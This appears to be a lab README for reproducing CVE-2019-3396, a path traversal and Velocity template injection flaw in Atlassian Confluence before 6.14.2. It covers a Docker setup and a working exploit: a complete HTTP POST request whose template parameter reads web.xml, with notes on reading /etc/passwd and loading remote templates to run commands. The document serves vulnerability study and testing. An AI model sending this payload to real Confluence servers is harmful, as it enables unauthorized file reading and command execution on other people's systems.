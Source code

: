 # Atlassian Confluence Path Traversal and Command Execution Vulnerability (CVE-2019-3396)

[中文版本(Chinese version)](README.zh-cn.md)

Confluence is a web-based corporate wiki developed by Australian software company Atlassian.

An unauthorized directory traversal vulnerability exists before version 6.14.2 of Atlassian Confluence, which an attacker can read arbitrary files or execute arbitrary commands using Velocity template injection.

Reference:

- https://paper.seebug.org/884/
- https://jira.atlassian.com/browse/CONFSERVER-57974

## Vulnerability Environment

Start a Confluence Server 6.10.2 by executing the following command.

```
docker-compose up -d
```

After the environment starts, visit ``http://your-ip:8090`` and you will see the installation guide, select "Trial installation", then you will be asked to fill in the license key. You should apply for a Confluence Server test certificate from Atlassian (do not select Data Center and Addons): 

![](1.png)

Then just click Next to install. This step of small memory VPS may fail to install or take a long time (it is recommended to use a machine with more than 4G memory for installation and testing), please wait patiently.

If prompted to fill in the cluster node, the path can be filled in with `/home/confluence`.

![](4.png)

You may be asked to fill in the database account password, choose the postgres database, the address is `db`, the account password is `postgres`:

![](5.png)

## Exploit

The file `web.xml` can be read by sending the following packet.

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId": "786458", "macro":{"name": "widget", "body":"", "params":{"url": "https://www.viddler.com/v/23464dc6", "width": "1000"," height": "1000","_template":". /web.xml"}}}
```

![](6.png)

Confluence before 6.12 did not restrict the protocol and path for file reading, we can use `file:///etc/passwd` to read files, or `https://... ` to load remote files.

If the file is a Velocity template, and we can execute arbitrary commands via template injection (SSTI):

![](7.png)
